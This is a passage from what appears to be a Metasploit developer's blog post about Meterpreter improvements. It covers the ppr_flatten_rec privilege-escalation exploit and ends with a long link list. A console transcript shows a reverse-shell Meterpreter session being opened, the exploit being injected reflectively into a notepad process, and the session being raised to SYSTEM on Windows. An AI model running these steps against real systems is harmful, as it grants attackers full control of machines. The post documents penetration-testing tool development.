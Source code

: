 After this change was merged, pentesters worldwide would rejoice in the fact that they could now resume normal `getsystem` programming instead of having to worry about sessions dying and machines crashing.

A big shout out goes to [sinn3r][] and [Juan][] for helping get this over the line.

### ppr\_flatten\_rec

While doing the work to refactor the [Reflective DLL Injection][] functionality into a [git submodule][], allowing all exploits and Meterpreter itself to share the same codebase, I had to go through existing exploits and make sure they configured to use this new submodule. `ppr_flatten_rec` was one of the two that needed updating (the other was KiTrap0D).

This exploit is quite nifty, though due to the nature of what it does, it can also make target systems unstable. For example, on my Windows 7 x86 machine, this exploit almost always worked, but would also make the desktop totally unusable. However, on my Windows Vista SP2 x86 box, I rarely had problems.

The original version of this module elevated an existing session rather than doing what all good local exploits should do and create a new session post-elevation. So while I was refactoring for submodules I decided to fix this up as well. The [result][ppr_flatten_rec_pr] is a nicer local exploit that goes like this:

``` plain ppr_flatten_rec Exploit in Action
msf exploit(handler) > exploit

[*] Started reverse handler on XX.XX.XX.40:8000 
[*] Starting the payload handler...
[*] Sending stage (785920 bytes) to XX.XX.XX.43
[*] Meterpreter session 1 opened (XX.XX.XX.40:8000 -> XX.XX.XX.43:49234) at 2013-11-27 19:55:43 +1000

meterpreter > getuid
Server username: WIN-P73NLAJOYFH\OJ
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use exploit/windows/local/ppr_flatten_rec
msf exploit(ppr_flatten_rec) > set session 1
session => 1
msf exploit(ppr_flatten_rec) > exploit

[*] Started reverse handler on XX.XX.XX.40:4444 
[*] Launching notepad to host the exploit...
[+] Process 3128 launched.
[*] Reflectively injecting the exploit DLL into 3128...
[*] Exploit injected. Injecting payload into 3128...
[*] Payload injected. Executing exploit...
[*] Exploit thread executing (can take a while to run), waiting 10 sec ...
[*] Sending stage (785920 bytes) to XX.XX.XX.43
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (XX.XX.XX.40:4444 -> XX.XX.XX.43:49235) at 2013-11-27 19:56:37 +1000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```


  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Rapid7]: http://www.rapid7.com/
  [vs_express]: http://www.visualstudio.com/downloads/download-visual-studio-vs#d-express-windows-desktop
  [vs_2012_pr]: https://github.com/rapid7/meterpreter/pull/16
  [vs_2013_pr]: https://github.com/rapid7/meterpreter/pull/41
  [ext_server_sniffer]: https://github.com/rapid7/meterpreter/tree/master/workspace/ext_server_sniffer
  [Jenkins]: http://jenkins-ci.org/
  [clean_builds_pr]: https://github.com/rapid7/meterpreter/pull/49
  [clean_builds_image]: https://github-camo.global.ssl.fastly.net/55f4e2cf4419f90a802acb0f3ac3b4d87476ff02/687474703a2f2f692e696d6775722e636f6d2f6b5852523176482e706e67
  [pointer_truncation]: http://buffered.io/posts/64bit-pointer-truncation-in-meterpreter/
  [MS08-067]: http://technet.microsoft.com/en-us/security/bulletin/ms08-067
  [pip_adapter_fix]: https://github.com/rapid7/meterpreter/pull/21
  [Juan]: https://twitter.com/_juan_vazquez_
  [Meatballs]: https://twitter.com/Meatballs__
  [sinn3r]: https://twitter.com/_sinn3r
  [wvu]: https://twitter.com/wvuuuuuuuuuuuuu
  [Egypt]: https://twitter.com/egyp7
  [todb]: https://twitter.com/todb
  [TheLightCosine]: https://twitter.com/TheLightCosine
  [HD Moore]: https://twitter.com/hdmoore
  [multi_call_railgun_metasploit]: https://github.com/rapid7/metasploit-framework/pull/2458
  [multi_call_railgun_meterpreter]: https://github.com/rapid7/meterpreter/pull/28
  [strcpy]: http://www.cplusplus.com/reference/cstring/strcpy/
  [Honey Badger]: http://en.wikipedia.org/wiki/Honey_Badger_Don't_Care
  [hack_protection]: https://github.com/rapid7/meterpreter/pull/32
  [webcam_module]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/webcam/webcam.rb
  [COM]: http://www.microsoft.com/com/default.mspx
  [webcam_fix_pr]: https://github.com/rapid7/meterpreter/pull/44
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload
  [Railgun]: http://www.room362.com/blog/2010/7/7/intro-to-railgun-win-api-for-meterpreter.html
  [kitrap0d_first]: http://carnal0wnage.attackresearch.com/2010/01/kitrap0d-now-in-metasploit.html
  [kitrap0d_meterpreter_pr]: https://github.com/rapid7/meterpreter/pull/51
  [kitrap0d_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2633
  [kitrap0d_module]: https://github.com/OJ/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_015_kitrap0d.rb
  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [git submodule]: http://git-scm.com/docs/git-submodule
  [Stephen Fewer]: https://twitter.com/stephenfewer
  [kitrap0d_full_disclosure]: http://seclists.org/fulldisclosure/2010/Jan/341
  [ppr_flatten_rec_pr]: https://github.com/rapid7/metasploit-framework/pull/2701
  [blue-screen]: http://en.wikipedia.org/wiki/Blue_Screen_of_Death
  [Incognito]: http://www.offensive-security.com/metasploit-unleashed/Fun_With_Incognito
  [Incognito_pr]: https://github.com/rapid7/meterpreter/pull/42
  [Incognito v2]: https://labs.mwrinfosecurity.com/blog/2012/07/18/incognito-v2-0-released/
  [stdapi_fs]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/fs/file.rb
  [getenv_win_met]: https://github.com/rapid7/meterpreter/blob/master/source/extensions/stdapi/server/sys/config/config.c#L43
  [getenv_py_met]: https://github.com/rapid7/metasploit-framework/blob/master/data/meterpreter/ext_server_stdapi.py#L386
  [getenv_php_met]: https://github.com/rapid7/metasploit-framework/blob/master/data/meterpreter/ext_server_stdapi.php#L586
  [getenv_msf]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/sys/config.rb#L40
  [mubix]: https://twitter.com/mubix
  [getproxy_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2592
  [command_dispatcher_terminate]: https://github.com/rapid7/meterpreter/blob/master/source/server/server_setup.c#L358
  [MFC]: http://en.wikipedia.org/wiki/Microsoft_Foundation_Class_Library
  [base_macros]: https://github.com/rapid7/meterpreter/blob/master/source/common/base.h#L25
  [command_dispatch_pr]: https://github.com/rapid7/meterpreter/pull/34
  [justinsteven]: https://twitter.com/justinsteven
  [radac]: https://twitter.com/radac_
  [sw1tch]: https://twitter.com/sw1tch1ng
  [Novex]: https://twitter.com/sebbity
  [Ash]: https://twitter.com/ashd_au
  [Wade]: https://twitter.com/wadealcorn
  [email]: /contact
  [TheColonial]: https://twitter.com/TheColonial
  [Zeknox]: https://twitter.com/zeknox
  [SmilingRaccoon]: https://twitter.com/smilingraccoon
  [metasploit_extapi_pr]: https://github.com/rapid7/metasploit-framework/pull/2602
  [meterpreter_extapi_pr]: https://github.com/rapid7/meterpreter/pull/45
  [DACL]: http://msdn.microsoft.com/en-us/library/windows/desktop/aa446597(v=vs.85).aspx
  [GDIPlus]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms533798(v=vs.85).aspx
  [adsi_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2736
  [adsi_meterpreter_pr]: https://github.com/rapid7/meterpreter/pull/60
  [Doxygen]: http://www.doxygen.org/
  [meterpreter_docs]: https://ci.metasploit.com/job/MeterpreterWinDocs/lastSuccessfulBuild/artifact/docs/html/index.html
  [meterpreter_ci]: https://ci.metasploit.com/job/MeterpreterWin/
  [BPX]: https://ruxconbreakpoint.com/
  [Rux]: http://ruxcon.org.au/
  [Pipes]: https://twitter.com/pipes
  [Kernelsmith]: https://twitter.com/kernelsmith
  [posix_signalling]: https://github.com/rapid7/meterpreter/pull/38/files#diff-9855cd942b30d41aeb1ac277daa18033R199
  [channel_refactor_pr]: https://github.com/rapid7/meterpreter/pull/38
  [indigo_montoya]: https://www.youtube.com/watch?v=G2y8Sx4B2Sk
  [Matthew Risck]: https://twitter.com/Mateusz_Jozef
  [Brandon]: https://twitter.com/blt04
  [sec_street_tldr]: https://community.rapid7.com/community/metasploit/blog/2013/12/27/meterpreter-reloaded
  [metasploit_post_extapi]: https://community.rapid7.com/community/metasploit/blog/2013/12/12/weekly-metasploit-update
  [Event]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682396%28v=vs.85%29.aspx